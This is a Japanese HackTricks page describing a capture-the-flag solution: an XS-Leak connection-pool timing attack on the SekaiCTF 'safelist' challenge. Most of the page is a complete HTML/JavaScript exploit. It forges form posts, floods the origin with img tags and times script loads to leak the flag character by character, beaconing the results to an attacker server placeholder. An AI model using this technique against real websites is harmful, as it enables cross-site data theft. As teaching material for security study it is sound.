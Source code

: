 # Connection Pool by Destination Example

{{#include ../../banners/hacktricks-training.md}}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) は、次のページで言及された課題に対する別の解決策を提案しています：

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

このエクスプロイトがどのように機能するか見てみましょう：

- 攻撃者は、できるだけ多くの **`<img`** タグ **を読み込む** **`/js/purify.js`** を注入します（オリジンをブロックするために6つ以上）。
- 次に、攻撃者はインデックス1の **ノート** を **削除** します。
- 次に、攻撃者は \[残りのノートで **ボットがページにアクセスする**\] ようにし、**`victim.com/js/purify.js`** に **リクエスト** を送信し、その **時間** を **計測** します。&#x20;
- 時間が **大きければ**、**注入** は残された **ノート** にあり、時間が **小さければ**、**フラグ** はそこにありました。

> [!NOTE]
> 正直なところ、スクリプトを読んでいると、**攻撃者がボットにページを読み込ませて img タグをトリガーさせる** 部分が抜けているように思います。コードの中にそのようなものは見当たりません。
```html
<html>
<head>
<script>
const SITE_URL = "https://safelist.ctf.sekai.team/"
const PING_URL = "https://myserver"
function timeScript() {
return new Promise((resolve) => {
var x = document.createElement("script")
x.src =
"https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
var start = Date.now()
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`) //Time request
resolve(Date.now() - start)
x.remove()
}
document.body.appendChild(x)
})
}

add_note = async (note) => {
let x = document.createElement("form")
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input")
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement("form")
x.action = SITE_URL + "remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input")
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
var prefix = "SEKAI{xsleakyay"
const TIMEOUT = 500
async function checkLetter(letter) {
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload =
`${prefix}${letter}` +
Array.from(Array(78))
.map((e, i) => `<img/src=/js/purify.js?${i}>`)
.join("")
await add_note(payload)
await sleep(TIMEOUT)
await timeScript()
await remove_note(1) //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT)
const time = await timeScript() //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter, time])
if (time > 100) {
return 1
}
return 0
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, "start")
// doesnt work because we are removing flag after success.
// while(1){
for (const letter of alphabet) {
if (await checkLetter(letter)) {
prefix += letter
navigator.sendBeacon(PING_URL, prefix)
break
}
}
// }
}
</script>
</head>
<body></body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
